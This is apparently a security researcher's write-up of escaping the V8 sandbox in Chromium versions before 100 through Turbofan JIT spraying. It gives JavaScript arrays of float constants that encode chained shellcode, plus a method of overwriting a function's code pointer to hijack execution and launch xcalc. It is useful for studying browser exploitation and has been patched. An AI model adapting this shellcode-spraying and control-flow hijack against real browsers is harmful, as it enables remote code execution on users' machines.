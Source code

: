 # Escaping V8 Sandbox via Turbofan JIT Spraying: Part 1 (Chromium < 100.0.4867.0)

In this post, I will explain how to escape V8 sandbox via Turbofan JIT Spraying to get RCE, while we have limited exploitation primitives like `addrof` and sandboxed AAR/AAW primitives.

## Setup

- Ubuntu 20.04.6 LTS (WSL)
- [9d0222424e6adf89663949d9e60e5ffe77d1cc83](https://chromium.googlesource.com/v8/v8/+/9d0222424e6adf89663949d9e60e5ffe77d1cc83) (Jan 24, 2022)

Save [`sandbox.diff`](./sandbox.diff) and [`setup.zsh`](./setup.zsh) in your working directory and run `setup.zsh`.

`sandbox.diff` is the same patch with [[sandbox\] Add new Memory Corruption API](https://chromium.googlesource.com/v8/v8/+/4a12cb1022ba335ce087dcfe31b261355524b3bf) (May 20th, 2022). Applying this patch, we can implement limited exploitation primitives using memory corruption API.

## Exploitation

### Implement exploitation primitives

We can implement sandboxed [`addrof`](./pwn.js#L9) primitive which returns address of arbitrary JavaScript object in V8 sandbox, using `Sandbox.getAddressOf`. Also, we can implement sandboxed [AAR](./pwn.js#L14)/[AAW](./pwn.js#L20) primitives which read and write value at arbitrary address in V8 sandbox, using `Sandbox.MemoryView`.

### JIT (Just-In-Time) spraying

```js
// flags: --allow-natives-syntax --shell

function jit() { return [1.1, 2.2, 3.3]; }

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/1.png)

![](img/2.png)

![](img/3.png)

`jit()` is a function which returns an array consisted of float numbers. After `jit()` is compiled via Turbofan, the numbers in returned array are inserted to the optimized code as raw numbers. It means that we can insert arbitrary 8-byte numbers to executable code region. If we can move `rip` to the address of this number, it will act like an 8-byte shellcode.

### Construct shellcode chain

With just 8-byte shellcode, we won't be able to do what we want to do. Instead, we can chain several short shellcodes using `jmp` instruction.

[`shellcode.py`](./shellcode.py)

![](img/4.png)

```js
// flags: --allow-natives-syntax --shell

function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}

for (let i = 0; i < 10000; i++) { jit(); jit(); jit(); jit(); jit(); jit(); } // compile via turbofan

% DebugPrint(jit);
```

![](img/5.png)

If there are same numbers in the array which `jit()` returns, the optimized code remembers that number in register and reuse it later. If so, chain is broken and shellcode doesn't work. Therefore, we should slightly change the order of instructions or move the position of `nop` instructions to make sure that all numbers are different, like following:

```js
function jit() {
    return [
        1.9711828996832522e-246, // 0xceb909090c03148
        1.971112871410787e-246, // 0xceb9050636cb866
        1.9711314215434657e-246, // 0xceb906163782fb8
        1.97118242283721e-246, // 0xceb909020e0c148
        1.9616425752617766e-246, // 0xceb6e69622f0548
        1.9711832695973408e-246, // 0xceb9090e7894850
        1.971182900582351e-246, // 0xceb909090f63148
        1.9711831018987653e-246, // 0xceb9090c0314890 (edited)
        1.971112653196158e-246, // 0xceb9050303ab866
        1.9710920957760286e-246, // 0xceb903d59414cb8
        1.9710610293119303e-246, // 0xceb9020e0c14890 (edited)
        1.9532382542574046e-246, // 0xceb505349440548
        1.971183239760578e-246, // 0xceb9090e0894850
        1.9711128050518315e-246, // 0xceb905053db3148
        1.971182900255075e-246, // 0xceb909090e28948
        1.9710902863710406e-246, // 0xceb903bb0c03148
        -6.828527034370483e-229 // 0x909090909090050f
    ];
}
```

### Hijack execution flow

When a Turbofan-compiled function is called, we can see following execution flow:

![](img/6.png)

![](img/7.png)

It first stores 4-byte value stored in `rdi + 0x17` in `rcx`, which is address of `code` of the function.

![](img/8.png)

![](img/9.png)

After that, it adds `0x3f` to `rcx` and jump to that address, in which compiled code of the function is stored.

`Function` object is inside of V8 sandbox, so we can overwrite the address of `code` stored in `Function` object using sandboxed AAW primitive, then control `rip`. Overwriting this with address of shellcode, we can execute it by simply calling the function.

You have to install `/bin/xcalc` by running `sudo apt install -y x11-apps` before executing [`pwn.js`](./pwn.js) if you are using WSL.

![](img/10.png)

## Patch

> [[ext-code-space] Enable external code space on x64 and desktop arm64](https://chromium.googlesource.com/v8/v8/+/7fc4868e477cc7cb7ef8c304fff214ea83498e7a) (Jan 24, 2022)
